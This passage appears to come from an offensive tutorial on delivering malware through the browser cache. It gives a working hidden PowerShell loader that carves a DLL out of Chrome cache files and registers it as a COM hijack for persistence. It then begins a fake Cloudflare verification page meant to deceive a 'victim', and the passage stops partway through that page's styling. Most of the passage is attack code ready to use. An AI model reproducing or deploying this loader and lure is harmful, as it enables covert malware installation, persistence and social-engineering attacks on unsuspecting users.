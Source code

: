 ```shell
powershell.exe -ep bypass -w hidden -c "$startString='startdll';$endString='enddll';$downloadsPath='C:\Users\rxk\AppData\Local\Google\Chrome\User Data\Default\Cache\Cache_Data';$outputFile='C:\Users\rxk\Desktop\tools\com-hj\test\loader.dll';$basePath='HKCU:\Software\Classes\CLSID\{33C53A50-F456-4884-B049-85FD643ECFED}';$subKeyPath=$basePath+'\InProcServer32';Get-ChildItem -Path $downloadsPath -File -Filter 'f_*' | ForEach-Object { $content=[System.IO.File]::ReadAllBytes($_.FullName);$fileHeader=[System.Text.Encoding]::ASCII.GetString($content,0,$startString.Length);if($fileHeader -eq $startString){$endStringBytes=[System.Text.Encoding]::ASCII.GetBytes($endString);$endIndex=-1;for($i=0;$i -le $content.Length-$endStringBytes.Length;$i++){if(($content[$i..($i+$endStringBytes.Length-1)] -join '') -eq ($endStringBytes -join '')){$endIndex=$i;break}}if($endIndex -ne -1){$originalContent=$content[($startString.Length)..($endIndex-1)];[System.IO.File]::WriteAllBytes($outputFile,$originalContent);if(-not(Test-Path $basePath)){New-Item -Path $basePath -Force | Out-Null};if(-not(Test-Path $subKeyPath)){New-Item -Path $subKeyPath -Force | Out-Null};Set-ItemProperty -Path $subKeyPath -Name '(Default)' -Value $outputFile;New-ItemProperty -Path $subKeyPath -Name 'ThreadingModel'  -PropertyType String -Value 'Apartment' -Force | Out-Null;break}}}"
```
{: .nolineno }
we will update `index.html` to add the fake `anti-bot verification` code and some additional checks to make sure the the victim is using
chrome or edge to access our website.

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>Just a moment...</title>
  <link rel="icon" href="https://www.cloudflare.com/favicon.ico" type="image/x-icon" />
  <style>
    :root {
      --cf-orange: #f38020;
      --cf-orange-dark: #d86f00;
    }

    * {
      box-sizing: border-box;
    }

    body {
      background-color: #f2f2f2;
      font-family: 'Segoe UI', sans-serif;
      margin: 0;
      padding: 0;
      display: flex;
      justify-content: center;
      align-items: center;
      min-height: 100vh;
    }

    .spinner-screen {
      text-align: center;
      padding: 40px;
      font-size: 18px;
      color: #333;
    }

    .spinner {
      border: 6px solid #eee;
      border-top: 6px solid var(--cf-orange);
      border-radius: 50%;
      width: 50px;
      height: 50px;
      margin: 0 auto 20px;
      animation: spin 1s linear infinite;
    }
```